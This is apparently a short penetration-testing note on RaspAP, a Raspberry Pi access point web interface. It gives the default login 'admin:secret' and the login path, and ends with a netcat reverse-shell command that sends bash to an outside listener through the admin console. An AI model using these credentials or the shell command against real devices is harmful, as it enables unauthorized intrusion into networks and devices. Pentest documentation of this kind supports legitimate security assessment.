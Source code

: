 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# RaspAP

RaspAP is a web-based interface for managing wireless access point settings on Raspberry Pi devices. It allows users to easily configure Wi-Fi, DHCP, hostapd, firewall rules, and VPN settings through a browser-based dashboard. Designed for low-resource hardware, RaspAP is lightweight and simple to use. It typically installs with the **Lighttpd web server** and runs on port `80` by default, though it may be configured to use alternate ports such as `8080` or `8091`. The interface is protected by a `BASIC` authentication and is commonly accessed at `/login.php`.

Based on its [official documentation](https://docs.raspap.com/manual/#restart) the default credentials are: `admin:secret`. The UI provide console functionality under the `System` menu on the sidebar where it can be used to get a reverse shell, typically, as `www-data`.

```bash
user@raspap ~$ nc -e /bin/bash 192.168.45.170 80
```
